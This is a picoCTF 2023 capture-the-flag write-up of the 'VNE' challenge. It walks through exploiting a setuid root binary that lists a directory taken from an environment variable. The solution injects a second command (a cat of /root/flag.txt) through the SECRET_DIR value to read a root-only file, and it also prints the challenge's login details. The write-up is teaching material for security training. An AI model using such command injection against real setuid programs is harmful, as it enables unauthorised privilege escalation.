 # VNE

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2023, Binary Exploitation, bash, env, injection
Author: JUNIAS BONOU

Description:
We've got a binary that can list directories as root, try it out !!

ssh to saturn.picoctf.net:61680, and run the binary named "bin" once connected. 
Login as ctf-player with the password, d8819d45
 
Hints:
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls
```

Challenge link: [https://play.picoctf.org/practice/challenge/387](https://play.picoctf.org/practice/challenge/387)

## Solution

### Connect to the server

We start by connecting to the server

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/VNE]
└─$ ssh -p 61680 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61680 ([13.59.203.175]:61680)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61680' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

And then we look for the `bin` binary mentioned in the challenge description

```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Nov  5 08:46 .
drwxr-xr-x 1 root       root          24 Aug  4 22:04 ..
drwx------ 2 ctf-player ctf-player    34 Nov  5 08:46 .cache
-rw-r--r-- 1 root       root          67 Aug  4 22:05 .profile
-rwsr-xr-x 1 root       root       18752 Aug  4 22:05 bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ 
```

Note that the `bin` binary has the [setuid](https://en.wikipedia.org/wiki/Setuid) bit set!

Ok, let's set the `SECRET_DIR` [environment variable](https://en.wikipedia.org/wiki/Environment_variable) to `/root` as suggested in the hints.

### Set the environment variable

```bash
ctf-player@pico-chall$ SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```

We can list any directory of our choice as root.  
The program probable does something like `ls $SECRET_DIR`.  
Let's try to verify this

```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
```

Great, now we can [inject additional commands](https://en.wikipedia.org/wiki/Code_injection) in the variable to get the flag as suggested in the hints.

### Get the flag

Finally, we append a `cat` command and an `echo` command to read the output more easily

```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt; cat /root/flag.txt; echo"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt; cat /root/flag.txt; echo as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
picoCTF{<REDACTED>}
ctf-player@pico-chall$ 
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Code injection - Wikipedia](https://en.wikipedia.org/wiki/Code_injection)
- [Environment variable - Wikipedia](https://en.wikipedia.org/wiki/Environment_variable)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
